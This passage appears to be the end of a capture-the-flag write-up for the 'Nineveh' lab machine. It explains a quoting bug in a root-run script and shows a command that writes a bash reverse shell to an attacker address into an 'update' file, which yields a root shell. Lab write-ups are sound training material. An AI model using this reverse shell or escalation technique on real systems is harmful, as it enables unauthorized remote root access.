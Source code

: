 ```sh
         STATUS=1
      fi


```

As this file `update` does not currently exist, it is possible to put a bash script. The `txt` file says that any file in `$SLAPPER_FILES` will run due to a typo because of this loop.The intended behavior is to set `$file_port` to be equal to `"$file_port $i"`. But because the `""` are missing, `bash` will treat that as setting `file_port=$file_port` and then running `$i`.

`$SLAPPER_FILES` is set a few lines earlier:

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.15/1337 0>&1' > update
chmod +x update
```

![](/Linux/Linux-Medium/Nineveh/Screenshots/privsec.png)


and just like that we get the root shell and we get the `root flag`

![](/Linux/Linux-Medium/Nineveh/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------

